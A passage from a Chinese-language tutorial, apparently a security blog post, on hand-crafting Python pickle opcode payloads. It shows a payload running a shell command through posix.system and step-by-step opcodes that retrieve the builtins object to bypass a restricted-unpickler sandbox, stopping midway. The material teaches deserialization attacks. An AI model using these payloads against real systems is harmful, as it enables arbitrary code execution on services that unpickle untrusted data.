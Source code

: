 显然，这里的memo是没有起到任何作用的。所以，我们可以将这段代码进一步简化，去除存储memo的过程：

```
cposix
system
(Vtouch /tmp/success
tR.
```

这一段代码仍然是可以执行命令的。当然，有了memo可以让编写程序变得更加方便，使用`g`即可将memo中的内容取回栈顶。

那么，我们来尝试编写绕过沙盒的pickle代码吧。

首先使用`c`，获取`getattr`这个可执行对象：

```
cbuiltins
getattr
```

然后我们需要获取当前上下文，Python中使用`globals()`获取上下文，所以我们要获取`builtins.globals`：

```
cbuiltins
globals
```

Python中globals是个字典，我们需要取字典中的某个值，所以还要获取`dict`这个对象：

```
cbuiltins
dict
```

上述这几个步骤都比较简单，我们现在加强一点难度。现在执行`globals()`函数，获取完整上下文：

```
cbuiltins
globals
(tR
```

其实也很简单，栈顶元素是builtins.globals，我们只需要再压入一个空元组`(t`，然后使用`R`执行即可。

然后我们用`dict.get`来从globals的结果中拿到上下文里的`builtins对象`，并将这个对象放置在memo[1]：

```
cbuiltins
getattr
(cbuiltins
dict
S'get'
tR(cbuiltins
globals
(tRS'builtins'
tRp1
```

到这里，我们已经获得了阶段性的胜利，`builtins`对象已经被拿到了：

[![image.png](https://www.leavesongs.com/media/attachment/2019/05/27/1bd57247-fa5b-4701-90c7-3f415fe9c992.3be49143ce95.png)](https://www.leavesongs.com/media/attachment/2019/05/27/1bd57247-fa5b-4701-90c7-3f415fe9c992.png)
